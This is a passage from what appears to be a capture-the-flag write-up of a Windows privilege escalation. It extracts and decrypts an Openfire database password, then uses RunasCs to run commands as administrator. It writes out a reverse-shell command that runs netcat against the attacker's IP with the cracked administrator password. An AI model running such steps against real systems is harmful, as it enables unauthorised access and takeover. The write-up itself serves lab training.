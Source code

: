 In `C:\Progra Files\Openfire`, there's a directory named **embedded-db**:

![alt text](image-31.png)

Inside **embedded-db**, there's **openfire.script**, and it contains encrypted password along with the decryption key.

Below is the part where it contains the encrypted password:

![alt text](image-32.png)

Below shows the part with decryption key:

![alt text](image-33.png)



### Openfire Password Decrypt
Using [Openfire_decrypt](https://github.com/c0rdis/openfire_decrypt), we can easily decrypt the password using the password key:

pic here


Password is cracked to be **ThisPasswordShouldDo!@**.

Again, using **RunasCs.exe**, we can run commands as the administrator:

![alt text](image-34.png)

Similarly, reverse shell can be spawned as the administrator:

`./RunasCs.exe administrator ThisPasswordShouldDo!@ "C:\tmp\nc.exe 10.10.14.13 1339 -e powershell"`

![alt text](image-35.png)

## References
- https://github.com/antonioCoco/RunasCs/releases
- https://github.com/c0rdis/openfire_decrypt
- https://github.com/c53elyas/CVE-2023-33733/tree/master
- https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897